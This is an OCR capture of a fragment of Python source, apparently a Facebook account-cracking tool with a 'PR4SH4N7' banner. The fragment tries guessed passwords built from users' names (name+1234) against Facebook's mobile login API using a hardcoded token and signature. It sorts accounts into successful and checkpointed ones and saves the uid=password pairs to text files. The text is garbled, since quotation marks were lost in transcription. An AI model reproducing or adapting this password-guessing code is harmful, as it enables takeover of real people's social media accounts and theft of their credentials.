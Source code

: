 

		        cp.write(uid+ = +pass1+\n)

 

		        cp.close()

 

		        cps.append(uid)

 

		    else:

 

		    	if access_token in d:

 

		            print(\x1b[1;97m[PR4SH4N7 = OK] +uid+ = +pass1+\x1b[1;0m)

 

		            ok=open(SOVAJok.txt,a)

 

		            ok.write(uid+ = +pass1+\n)

 

		            ok.close()

 

		            oks.append(uid)

 

		        else:

 

		            pass2=name+1234

 

		            q = requests.get(https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email= + uid + &locale=vi_vn&password= + pass2 + &sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c, headers=header).text

 

		            d=json.loads(q)

 

		            if www.facebook.com in d[error_msg]:

 

		                print(\033[1;93m[PR4SH4N7>CP] +uid+ = +pass2)

 

		                cp=open(SOVAJcp.txt,a)

 

		                cp.write(uid+ = +pass2+\n)

 
